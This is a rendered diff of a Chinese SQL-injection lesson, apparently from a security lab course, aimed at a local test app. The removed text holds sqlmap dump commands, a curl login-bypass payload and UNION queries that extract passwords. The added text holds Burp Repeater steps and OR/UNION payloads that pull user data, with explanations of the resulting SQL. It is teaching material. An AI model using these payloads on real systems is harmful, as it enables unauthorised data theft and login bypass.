

Before and after one commit to mcc0624/AI-Security-Lab, a Markdown page: .claude/class/day-03-sql-injection.md, the part around one of its changes. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/.claude/class/day-03-sql-injection.md
+++ b/.claude/class/day-03-sql-injection.md
@@ -151,62 +135,54 @@ sqlmap -u "http://127.0.0.1:5000/search?keyword=admin" \
-4. **提取数据**
-   - 查询所有表：`' UNION SELECT name,sql,3,4,5,6,7 FROM sqlite_master --`
-   - 提取密码：`' UNION SELECT username,password,3,4,5,6,7 FROM users --`
-
-### 方法 2：SQLMap 自动化
-
-```bash
-# 自动检测注入点
-sqlmap -u "http://127.0.0.1:5000/search?keyword=admin" \
-  --cookie="session=你的session值" \
-  --batch \
-  --level 3 \
-  --risk 2
-
-# 自动获取所有数据
-sqlmap -u "..." --cookie="..." --batch --dump-all
-```
+1. 登录后拦截 GET /search?keyword=admin 请求
+2. 发送到 Repeater
+3. 修改 keyword 参数测试：
+   - `admin' OR '1'='1` → 应返回所有用户
+   - `' UNION SELECT 1,2,3,4--` → 应返回数字代替数据
+   - `' UNION SELECT 1,username,email,phone FROM users--` → 应返回所有用户名和邮箱
+4. 观察响应变化，确认注入生效
 
 ---
 
 ## 六、POC 代码详细解释
 
-### POC 1 详解：万能密码
+### POC 1 详解：UNION 注入
 
-```bash
-curl http://127.0.0.1:5000/login \
-  -d "username=admin' OR '1'='1&password="
+```
+原 SQL：SELECT * FROM users WHERE username LIKE '%{keyword}%' OR email LIKE '%{keyword}%'
+
+输入 keyword = ' UNION SELECT 1,'inj','inj@x.com','138'--
+
+生成 SQL：
+SELECT * FROM users
+WHERE username LIKE '%' UNION SELECT 1,'inj','inj@x.com','138'--%'
+      ^^^^^^^^
+      UNION 合并第二个查询的结果
+
+第二个查询返回：1, inj, inj@x.com, 138
+这些数据会出现在原始的搜索结果中
 ```
 
-**Payload 分析**：
-
-| 输入 | 值 | 作用 |
-|------|----|------|
-| `username` | `admin' OR '1'='1` | 闭合前引号，插入 OR 永真条件 |
-| `password` | 空 | 密码任意，因为永真条件跳过了密码检查 |
-
-**生成的 SQL**：
-```sql
-SELECT * FROM users
-WHERE username = 'admin' OR '1'='1' AND password = ''
-```
-       ^^^^^^^^^^^^   ^^^^^^^^^^^^
-       正常条件       永真条件（使 WHERE 永远为 True）
-
-**执行逻辑**：`WHERE (username='admin') OR ('1'='1' AND password='')`。由于 `'1'='1'` 永远为真，即使第一个条件不满足（用户不存在），整个 WHERE 子句也返回 True，**返回表中第一行用户的数据**。
-
-### POC 2 详解：UNION 注入
+**为什么列数必须是 4？**
 
 ```
-搜索关键词: ' UNION SELECT 1,'hacked','pwned','hack@x.com','13800000000','admin',99999 --
+SELECT * FROM users  返回 4 列（id, username, email, phone）
+UNION SELECT 1,'inj','inj@x.com','138'  也必须返回 4 列
+
+如果列数不匹配，SQLite 会报错：
+"SELECTs to the left and right of UNION do not have the same number of result columns"
 ```
 
-**生成的 SQL**：
-```sql
+### POC 2 详解：OR 万能条件
+
+```
+原 SQL：SELECT * FROM users WHERE username LIKE '%{keyword}%' OR email LIKE '%{keyword}%'
+
+输入 keyword = ' OR '1'='1
+
+生成 SQL：
 SELECT * FROM users
-WHERE username LIKE '%' UNION SELECT 1,'hacked','pwned','hack@x.com','13800000000','admin',99999 --%'
-      ^^^^^  UNION 关键字，将两个查询结果合并
-             ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
-             攻击者控制的第二个查询，返回自定义数据
-                                                                                                          ^^
-                                                                                                          注释符，去掉后面内容
+WHERE username LIKE '%' OR '1'='1%' OR email LIKE '%' OR '1'='1%'
+                       ^^^^^^^^^^^
+                       永真条件，所有行都匹配
+
+结果：返回 users 表中的全部数据
 ```
````
Also changed, not shown: other parts of .claude/class/day-03-sql-injection.md (+129 -168 lines).
